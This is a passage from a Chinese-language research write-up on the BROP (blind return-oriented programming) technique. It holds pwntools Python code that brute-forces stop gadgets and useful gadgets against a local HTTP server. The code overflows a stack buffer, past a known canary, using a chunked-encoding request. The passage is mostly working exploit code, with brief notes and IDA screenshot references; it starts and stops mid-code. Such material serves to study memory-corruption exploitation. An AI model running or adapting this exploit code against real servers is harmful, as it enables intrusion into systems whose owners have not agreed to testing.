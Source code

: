 ```python
            s.send(base_payload + "A" * canary_offset + canary +'a'*buf_size+ p64(stop_gadget)*i)
            try:
                checkstr = s.recv(timeout=0.5)
                s.close()
                log.info("find one stop gadget: 0x%x deth %d:", stop_gadget,i)
                return stop_gadget,i
            except:
                s.close()
                log.info("not 0x%x,try harder deth %d", stop_gadget,i)
        stop_gadget += 0x10 * 30



if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x2d\x8a\x57\xe7\x59\xcc\x69"
    buf_size = 24
    stop_gadget,depth = get_stop_gadget(canary_offset, canary, buf_size)
```

找到能够短暂停留0.5秒的stop gadget，需要连续填充44次

![image-20220808104221363](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808104221363.png)

通过ida看到这里是unlink的plt

![image-20220808135716244](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220808135716244.png)

#### 寻找useful gadget

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

# context.log_level = "error"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def check_pop_ret1(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget):
    useful_gadget = useful_gadget + 1
    s = connect("127.0.0.1", 80)
```